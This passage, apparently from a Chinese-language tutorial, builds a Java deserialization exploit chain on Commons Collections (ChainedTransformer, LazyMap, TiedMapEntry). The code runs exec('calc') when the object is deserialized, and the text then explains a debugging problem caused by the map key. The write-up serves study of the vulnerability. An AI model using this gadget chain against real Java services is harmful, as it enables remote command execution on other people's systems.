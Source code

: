 ```plain
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题二：

再进行反序列化我们发现还存在问题，断点调试的时候我们可以发现序列化的时候会进行一步key的操作：在序列化的过程中我们可以发现，if语句是可以进入的，会把`TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");`中的key=“aaa"传入put，所以这里再进行反序列化的时候会因为存在key而进不去if语句从而无法调用到我们想要的factory.transform(key)方法。
